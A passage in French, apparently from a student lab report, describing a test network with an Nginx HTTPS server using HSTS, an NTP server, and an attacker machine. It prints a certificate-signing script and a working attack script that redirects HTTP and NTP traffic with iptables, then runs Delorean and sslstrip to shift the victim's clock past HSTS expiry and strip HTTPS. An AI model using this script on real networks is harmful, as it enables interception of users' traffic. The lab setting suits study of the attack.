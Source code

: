 Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connections HTTPS a été généré avec openssl grâce aux scripts présents dans le dossier , et signé par notre autorité de certification par ce script :

\begin{verbatim}
#!/bin/sh

if test ! -f root-ca.pem || test ! -f root-ca.key
then
    echo "[-] First, create CA !"
    exit 1
fi

# Create private key
openssl genrsa -out cert.key 4096

# Create request
openssl req -new -key cert.key -out cert.csr

# Sign certificate with CA
openssl x509 -req -in cert.csr -CA root-ca.pem -CAkey root-ca.key -CAcreateserial -out cert.pem -days 365 -sha256

echo "[+] Your certificate: cert.pem"
echo "[+] Your private key: cert.key"
\end{verbatim}

Sur le serveur Nginx, nous avons configuré un domaine en http (), ainsi qu'un domaine en https (), sécurisé grâce à HSTS. La configuration de ce dernier se fait en rajoutant la ligne suivante dans le fichier de configuration de Nginx :

\begin{verbatim}
  add_header Strict-Transport-Security "max-age=31536000; includeSubDomains";
\end{verbatim}

Cette machine héberge également un serveur NTP. Nous avons simplement eu à installer le paquet ntpd pour que celui-ci soit lancé au démarrage.

\subsubsection{Machine immortal (147.210.12.2 - 147.210.13.1)}

C'est sur cette machine que se trouve le Proof-Of-Concept de l'attaque. Nous avons également utilisé le script Delorean comme décrit dans le papier de l'attaque afin d'usurper les requêtes NTP de la machine grave. L'attaque se lance grâce au script  :

\begin{verbatim}
#!/bin/sh

PROXY_PORT=4242
DELOREAN_PORT=4343

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT
iptables -t nat -A PREROUTING -p udp --destination-port 123 -j REDIRECT --to-port $DELOREAN_PORT

hsts_expire=$(curl -v https://www.opeth.secure --insecure 2>&1  | grep Strict | awk -F= '{print $2}' | awk -F\; '{print $1}')
hsts_expire=$(($hsts_expire / 60 + 1))

/mnt/host/delorean.py -p $DELOREAN_PORT -n -s ${hsts_expire}m &
/mnt/host/sslstrip-ntp.py $PROXY_PORT
\end{verbatim}

